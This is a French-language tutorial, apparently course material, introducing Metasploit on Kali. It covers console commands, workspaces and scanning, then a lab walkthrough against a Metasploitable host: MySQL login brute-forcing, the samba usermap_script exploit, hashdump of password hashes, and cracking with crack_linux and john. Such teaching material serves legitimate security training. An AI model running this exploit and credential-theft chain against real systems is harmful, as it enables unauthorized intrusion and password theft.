Introduction à Metasploit
Metasploit est une architecture bâtie pour faciliter l'exploitation de failles dans les systèmes informatiques.
Un des outils les plus utiles pour un pirate éthique.
Dans Kali, pour démarrer Metasploit, faire la commande suivante :
msfconsole
Architecture de Metasploit

Dans Kali, les packages de Metasploit sont dans le dossier suivant :
/usr/share/metasploit-framework
Un dossier en particulier est important, celui des modules :
/usr/share/metasploit-framework/modules
Ce dossier contient tous les outils qui peuvent être utilisés pour découvrir des failles, de les exploiter et autres tâches connexes.
Sous modules, il y a ces dossiers :
- Exploits - Pour exploiter les failles d'un système.
- Auxiliary - Outils comme des balayeurs de ports, sniffers et autres
- Payloads - Code qui peut être exécuté sur la machine de la victime
- Encoders - Outils qui transforment les payloads pour qu'ils arrivent à destination correctement
- Nops - Pour garder un poids du payload consistant
Commandes de la console
exit
Pour sortir de la console.
help
Donne la liste des commandes.
info
Donne de l'information sur un module spécifique.
search
Permet de rechercher à travers tous les modules disponibles.
Voici quelques mots clés pour aider à chercher :
- name : cherche dans le nom du module
- platform : cherche un module qui agit sur la plateforme
- type : quel type de module (exploit, payload, etc.)
sessions
Interagit avec les différentes sessions.
set
Pour configurer les options d'un module.
unset
Annule une configuration d'options.
setg
Pour configurer globalement les options de modules.
show
Affiche les modules.
show options
Affiche les options du module en cours.
show advanced
Affiche les options avancées du module en cours.
use
Indique quel module à utiliser.
Utilisation d'une base de données dans Metasploit
Pour aider dans l'utilisation de la plateforme, une base de données Postgresql est à votre disposition pour conserver l'information de votre reconnaissance active.
Pour démarrer la BD PostGreSQL : Procédure
Lors de la première utilisation, il faut initialiser la BD avant d'utiliser workspace, une fois dans la console :
msfdb init
Espaces de travail
Dans la console, vous pouvez voir vos espaces de travail avec la commande :
workspace

L'outil est fait pour garder séparé les reconnaissances actives d'un client à l'autre.
Pour créer un nouvel espace de travail :
workspace -a cegep

Pour le supprimer :
workspace -d cegep

Pour le sélectionner :
workspace cegep

Une fois un espace de travail sélectionné, tous les résultats des balayages seront sauvegardés dans l'espace de travail.
Utiliser nmap pour le balayage
Une commande dans Metasploit permet d'utiliser nmap pour alimenter l'espace de travail :
db_nmap -A 192.168.40.7

Vous pouvez voir les résultats dans les contenants de l'espace de travail :
hosts

Pour limiter les colonnes de hosts :
hosts -c address,os_flavor

Pour faire une recherche d'un actif en particulier :
hosts -S Linux

Utiliser le module de balayage de Metasploit
use auxiliary/scanner/portscan/tcp
show options

Une des options du module est RHOSTS. Utilisons la commande hosts pour l'alimenter :
hosts -R

run

Commande services
Pour voir les services découverts :
services

Pour voir un service en particulier :
services -S http

Pour une recherche par numéro de port :
services -p 445

Informations de connexion
Utilisation de l'outil de découverte de mots de passe MySQL ne fonctionne pas avec Kali 2024
Utiliser l'outil de découverte de mots de passe MySQL :
use auxiliary/scanner/mysql/mysql_login
show options

hosts -R
run

Les informations se retrouvent dans le contenant creds :
creds

Les trésors (loot)
Metasploit conserve aussi tous les loot qui sont découverts par ses modules.
Essayons d'aller chercher les fichiers de mots de passe de Metasploitable :
use exploit/multi/samba/usermap_script
show options
hosts -R

exploit

use post/linux/gather/hashdump
show options

set SESSION 1
run

loot

Décryptage des loot
use auxiliary/analyze/crack_linux
show options
set CUSTOM_WORDLIST /usr/share/john/password.lst
set USE_DEFAULT_WORDLIST false
set USE_ROOT_WORDS false
run

Décryptage des loot avec john si ça ne marche pas avec crack_linux
Après l'extraction des loot, il est possible de les déchiffrer avec l'outil john :
john --wordlist=/usr/share/john/password.lst --rules /root/.msf4/loot/20200605161359_default_192.168.40.7_linux.hashdump_159137603
